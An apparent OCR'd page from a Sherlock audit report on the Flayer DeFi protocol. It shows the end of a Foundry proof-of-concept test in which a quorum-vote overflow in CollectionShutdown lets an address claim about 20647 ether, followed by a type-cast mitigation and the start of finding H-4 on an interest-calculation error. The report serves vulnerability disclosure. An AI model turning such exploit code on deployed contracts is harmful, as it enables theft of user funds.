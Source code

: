 ```solidity
    // in a collection token with denomination 9
    collectionToken.mint(address(1), 0.6190 ether * 10**9);
    vm.stopPrank();

    // Start collection shutdown from address(1)
    vm.startPrank(address(1));
    collectionToken.approve(address(collectionShutdown), 0.6190 ether * 10**9);
    collectionShutdown.start(address(erc721c));
    vm.stopPrank();

    // Mint NFTs into our collection {Locker} and process the execution
    uint[] memory tokenIds = _mintTokensIntoCollection(erc721c, 3);
    collectionShutdown.execute(address(erc721c), tokenIds);

    // Mock the process of the Sudoswap pool liquidating the NFTs for ETH.
    vm.startPrank(SUDOSWAP_POOL);
    // Transfer the specified tokens away from the Sudoswap position to simulate a purchase
    for (uint i; i < tokenIds.length; ++i) {
        erc721c.transferFrom(SUDOSWAP_POOL, address(5), i);
    }
    // Ensure the sudoswap pool has enough ETH to send
    deal(SUDOSWAP_POOL, 1 ether);
    // Send ETH from the Sudoswap Pool into the {CollectionShutdown} contract
    (bool sent,) = payable(address(collectionShutdown)).call{value: 1 ether}('');
    require(sent, 'Failed to send {CollectionShutdown} contract');
    vm.stopPrank();

    // Get our start balances so that we can compare to closing balances from claim
    uint startBalanceAddress = payable(address(1)).balance;

    // address(1) now can claim
    collectionShutdown.claim(address(erc721c), payable(address(1)));

    // Due to quorum overflow, address(1) now holds ~ 20647 ether
    assertApproxEqRel(payable(address(1)).balance - startBalanceAddress, 20647 ether, 0.01 ether);
}
```

### Mitigation

Employ the appropriate type and cast for `quorumVotes`, e.g. `uint92`.

# Issue H-4: There is a calculation error inside the calculateCompoundedFactor() function, causing users to overpay interest. 

Source: https://github.com/sherlock-audit/2024-08-flayer-judging/issues/227 

## Found by 
0x37, Sentryx, Tendency, ZeroTrust, dany.armstrong90, dimulski, kuprum, merlinboii, robertodf, stuart\_the\_minion
## Summary
There is a calculation error inside the calculateCompoundedFactor() function, causing users to overpay interest.
## Vulnerability Detail
```javascript
    function calculateProtectedInterest(uint _utilizationRate) public pure returns (uint interestRate_) {
        // If we haven't reached our kink, then we can just return the base fee
        if (_utilizationRate <= UTILIZATION_KINK) {
```